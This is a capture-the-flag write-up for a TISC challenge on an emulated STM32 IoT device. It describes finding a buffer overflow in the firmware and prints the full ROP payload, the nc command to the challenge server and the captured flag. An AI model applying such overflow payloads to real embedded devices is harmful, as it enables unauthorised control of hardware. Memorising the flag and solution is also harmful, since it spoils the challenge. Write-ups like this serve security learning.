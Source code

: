 # Level-9 - HWisntThatHardv2

DESCRIPTION

Last year many brave agents showed the world what they could do against PALINDROME's custom TPM chips. Their actions sent chills down the spines of all those who seek to do us harm. This 

year, we managed to exfiltrate an entire STM32-based system and its firmware from within SPECTRE.

Since you probably do not have STM32 development boards at home, we have built an emulator that does its best to emulate the STM32 chip and its peripherals. This is neatly packaged inside a

docker container, so you can run it on your own machine.

Your mission, if you choose to accept it, is to find out what this device is built to do, how to interact with it, and, if possible, how to exploit it.

You will be provided with the following emulator + firmware:

- MD5 (HWisntThatHard_v2.tar.xz) = 1246c6248e2788613f702a50d162b748
- MD5 (config.yaml) = 5ea0a99dc870dd3ae31370e69c652002
- MD5 (csit_iot.bin) = 57a8e159e6d81e620f618258cd4f4a50
- MD5 (docker-compose.yml) = e284296706c38121e6074cfd09f0a062
- MD5 (Dockerfile) = 84ee422322a23d6e25e73d3a44e59763
- MD5 (ext-flash.bin) = 8ea3bc31ef48ec78012c0c46d857f50e
- MD5 (stm32-emulator) = 731c0d36f8949bd8a5f26ee05b821b8c
- MD5 (stm32f407.svd) = cd5687242c32a448d84e6995065ddaf1


You can perform your attack on a live STM32 module hosted behind enemy lines:

nc chals.tisc25.ctf.sg 51728

attached files

HWisntThatHard_v2.tar.xz

---

# WARNING: If you want to learn how to solve the challenge properly, find another writeup!

Now that the warning is over, CHAT kinda cooked this challenge for me but I'll still try to talk about the challenge :)

So I opened the csit_iot.bin in IDA and searched for strings and pressed X to see where they were being used and found the function sub_8007900().

I pasted the pseudo-code into CHAT and it told me

<img width="770" height="146" alt="image" src="https://github.com/user-attachments/assets/46751c70-bb7d-4a8c-a743-37fe3960d46d" />

Indeed, indeed.

I asked it how do I interect with the server and it gave me the proper format after multiple tries.

So I ran the server locally and started to try and expriement by myself.

```code
{"slot":1}
Slot 1 contains: [84,73,83,67,123,70,65,75,69,95,70,76,65,71,95,71,79,69,83,95,72,69,82,69,125,0,0,0,0,0,0,0]
{"slot":2}
Slot 2 contains: [84,73,83,67,123,70,65,75,69,95,70,76,65,71,95,71,79,69,83,95,72,69,82,69,125,0,0,0,0,0,0,0]
```

I asked CHAT where these values were coming from and it told me that it was getting it from ext-flash.bin.

So I checked it, and saw TISC{REAL_FLAG_GOES_HERE} :0.

Ok so somehow I had to make the server read from the first 32 bytes from the ext-flash.bin.

So I chatted to CHAT more and it told me to send it more functions for it to analyise.

After an intense prompt engineering session, it identified the buffer overflow bug.

To my understanding, when checking slots, once I sent more than 44 bytes, an address is in the next 4 bytes, the programme will jump to that address which allows us to constuct a ROP payload utilizing gadgets such that we can make the problem read the first 32 bytes of the ext-flash.bin.

And this is where it started to cook.

<img width="818" height="382" alt="image" src="https://github.com/user-attachments/assets/a2767272-21fd-493f-9c70-b4e0e37b381c" />

And so I gave the POP {R0-R3, PC} gadget at 0x080068EE to it, it then asked for a SPI READ address and I give it 0x08034E5C where the first four bytes were [03, 00, 00, 00], it then ask for a BLX R3 and I gave it 0x08005526 and then it cooked.

<img width="774" height="510" alt="image" src="https://github.com/user-attachments/assets/54f5ff8c-d974-430a-a853-79e70f4d8be2" />

I asked it to put everything into one line and got 
```
{"slot":1,"data":[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,239,104,0,8,0,0,2,64,0,128,0,0,0,0,0,0,221,23,0,8,37,85,0,8,239,190,173,222,239,104,0,8,120,3,0,32,92,78,3,8,4,0,0,0,189,37,0,8,37,85,0,8,239,190,173,222,239,104,0,8,120,3,0,32,0,16,0,32,32,0,0,0,237,43,0,8,37,85,0,8,239,190,173,222,239,104,0,8,0,0,2,64,0,128,0,0,1,0,0,0,221,23,0,8,37,85,0,8,239,190,173,222,239,104,0,8,88,8,0,32,0,16,0,32,32,0,0,0,197,120,1,8,37,85,0,8,239,190,173,222,239,104,0,8,88,8,0,32,10,0,0,0,0,0,0,0,65,119,1,8,37,85,0,8,239,190,173,222,1,121,0,8]}
```

Now I just sent this to the server and I got the flag.

```
nc chals.tisc25.ctf.sg 51728
{"slot":1,"data":[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,239,104,0,8,0,0,2,64,0,128,0,0,0,0,0,0,221,23,0,8,37,85,0,8,239,190,173,222,239,104,0,8,120,3,0,32,92,78,3,8,4,0,0,0,189,37,0,8,37,85,0,8,239,190,173,222,239,104,0,8,120,3,0,32,0,16,0,32,32,0,0,0,237,43,0,8,37,85,0,8,239,190,173,222,239,104,0,8,0,0,2,64,0,128,0,0,1,0,0,0,221,23,0,8,37,85,0,8,239,190,173,222,239,104,0,8,88,8,0,32,0,16,0,32,32,0,0,0,197,120,1,8,37,85,0,8,239,190,173,222,239,104,0,8,88,8,0,32,10,0,0,0,0,0,0,0,65,119,1,8,37,85,0,8,239,190,173,222,1,121,0,8]}
Checking...
TISC{3mul4t3d_uC_pwn3d}
```

FLAG: TISC{3mul4t3d_uC_pwn3d}

(Okay, final challenge where CHAT did most of the thinking, once again read another write up for a better understanding of this challenge)
